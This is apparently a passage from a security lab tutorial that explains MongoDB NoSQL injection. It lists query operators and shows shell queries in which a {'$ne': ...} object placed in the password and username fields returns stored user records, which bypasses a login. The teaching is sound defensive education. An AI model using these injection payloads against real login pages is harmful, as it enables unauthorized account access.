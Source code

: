 
*MongoDB*
```
> db.users.findOne({username: "admin", password: "adminpass"})
{
        "_id" : ObjectId("6183ef6292dea43d75f0c820"),
        "id" : "1",
        "username" : "admin",
        "email" : "admin@thm.labs",
        "password" : "adminpass"
}
> db.users.findOne({username: "admin", password: "adminpasss"})
null
```

Before exploiting the NoSQL injection, there are MongoDB operators that we need to be familiar with that are heavily used in the injections, which are:

- `$eq` - matches records that equal to a certain value
- `$ne` - matches records that are not equal to a certain value
- `$gt` - matches records that are greater than a certain value.
- `$where` - matches records based on Javascript condition
- `$exists` - matches records that have a certain field
- `$regex` - matches records that satisfy certain regular expressions.

Visit the MongoDB website for more information about the MongoDB operators. Next, we will be exploiting the logic of the login query by injecting a JSON object which includes one of the NoSQL operators, which is `$ne`. 

*MongoDB*
```
> db.users.findOne({username: "admin", password: {"$ne":"xyz"}})
{
        "_id" : ObjectId("6183ef6292dea43d75f0c820"),
        "id" : "1",
        "username" : "admin",
        "email" : "admin@thm.labs",
        "password" : "adminpass"
}
```

We injected a JSON objection `{"$ne": "XYZ"}`  in the password field, and we changed the logic to become as follows:

- We are telling MongoDB to find a document (user) with a username equal to `admin` and his password is `not equal` to `xyz`, which turns this statement to TRUE because the admin's password is not `xyz`.

As a result, we have successfully retrieved the document from MongoDB since our statement's logic is true. By applying this concept against a login page of a web application, we will be able to bypass the login page.

Now let's say if we wanted to log in to a system as another user who is not admin. In this case, we can also inject into a username field to be as follows,

*MongoDB*
```
> db.users.findOne({username:{"$ne":"admin"},password:{"$ne":"xyz"}})
{
        "_id" : ObjectId("6183ef5b92dea43d75f0c81f"),
        "id" : "2",
        "username" : "user",
        "email" : "user@thm.labs",
        "password" : "password1!"
}
```
